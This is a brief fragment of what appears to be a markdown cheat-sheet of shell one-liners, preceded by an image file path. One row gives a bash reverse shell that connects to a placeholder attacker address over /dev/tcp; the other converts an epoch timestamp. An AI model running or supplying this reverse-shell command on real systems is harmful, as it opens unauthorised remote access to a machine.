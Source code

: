 | **One-liner reverse shell** | `bash -i >& /dev/tcp/attacker-ip/4444 0>&1` | Basic reverse shell |
| **Convert epoch time** | `date -d @1609459200` | Translate timestamps |
